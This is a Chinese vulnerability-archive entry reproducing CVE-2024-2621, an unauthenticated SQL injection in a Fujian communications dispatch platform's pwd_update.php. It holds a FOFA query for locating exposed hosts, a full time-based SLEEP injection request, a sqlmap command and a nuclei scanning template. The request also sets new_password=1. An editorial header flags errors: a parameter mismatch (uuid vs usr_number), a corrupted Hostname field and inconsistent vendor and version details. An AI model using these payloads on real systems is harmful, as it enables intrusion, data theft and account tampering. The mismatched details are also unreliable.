




# CVE-2024-2621 漏洞复现（POC）

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：福建科立讯通信指挥调度平台
- 文献类型：SQL注入复现与模板
- 版本、权限及部署边界：文写<=20240318又写之前；/api/client/user/pwd_update.php请求无需Cookie、带sign=1；真实性需入口鉴权核对
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 描述注入参数uuid，手工和模板实际usr_number，属于确定参数错配
2. 改密码入口带new_password=1，若业务成功可能改账户状态，不应称无损批量验证
3. 模板Hostname被反斜线转义损坏，5–6秒单次时间窗+msg泛化匹配误报/漏报风险，缺基线对照
4. 厂商名科立讯/科力信混杂；受影响日期边界<=与之前冲突，无原始CVE/厂商修复出处

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://mp.weixin.qq.com/s/h27Ver3UAR9rVu1IKCAUEg>
- 原文参考链接（未重新核验）：<http://ksria.com/simpread/>
- 原文参考链接（未重新核验）：<https://github.com/MrWQ/vulnerability-paper>

### 归档技术正文

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/h27Ver3UAR9rVu1IKCAUEg)

免责申明：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**

01

—

漏洞名称

福建科立讯通信指挥调度平台 pwd_update.php sql 注入漏洞

02

—  

漏洞影响

福建科立讯通信调度平台 <= 20240318



03

—  

漏洞描述

福建科立讯通信调度平台在 20240318 之前的版本中发现了一个严重的漏洞。受影响的是文件 api/client/user/pwd_update.php 的某些未知功能。通过操纵参数 uuid 可以导致 SQL 注入。未授权的攻击者可以远程进行攻击盗取敏感数据。

04

—  

FOFA 搜索语句

  

```
body="app/structure/departments.php"||app="指挥调度管理平台"

```



05

—  

漏洞复现

向靶场发送如下数据包进行时间盲注

```
GET /api/client/user/pwd_update.php?usr_number=1%27%20AND%20(SELECT%207872%20FROM%20(SELECT(SLEEP(5)))DHhu)%20AND%20%27pMGM%27=%27pMGM&new_password=1&sign=1 HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1

```

响应内容如下



漏洞复现成功

使用 SQLmap 尝试  

```
sqlmap -u "http://x.x.x.x/api/client/user/pwd_update.php?usr_number=1&new_password=1&sign=1"

```



06

—  

nuclei poc

poc 文件内容如下

```
id: CVE-2024-2621
info:
  name: 福建科立讯科力信通信指挥调度平台pwd_update.php sql注入漏洞
  author: fgz
  severity: high
  description: 'fujian 科立讯通信调度平台在20240318之前的版本中发现了一个严重的漏洞。受影响的是文件api/client/user/pwd_update.php的某些未知功能。通过操纵参数uuid可以导致SQL注入。攻击可能是远程发起的。'
  tags: cve,cve-2024,sqli
  metadata:
    max-request: 1
    fofa-query: body="app/structure/departments.php" || app="指挥调度管理平台"
    verified: true
requests:
  - raw:
      - |-
        GET /api/client/user/pwd_update.php?usr_number=1%27%20AND%20(SELECT%207872%20FROM%20(SELECT(SLEEP(5)))DHhu)%20AND%20%27pMGM%27=%27pMGM&new_password=1&sign=1 HTTP/1.1
        Host: \{\{Hostname\}\}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
        Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
        Accept-Encoding: gzip, deflate, br
        Connection: close
        Upgrade-Insecure-Requests: 1
    matchers:
      - type: dsl
        dsl:
          - "status_code == 200 && duration>=5 && duration<=6 && contains(body,'msg')"

```

07

—  

修复建议

升级到最新版本。

08

—  

新粉丝福利领取

在公众号主页或者文章末尾点击发送消息免费领取。

发送【电子书】关键字获取电子书

发送【POC】关键字获取 POC

发送【工具】获取渗透工具包

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
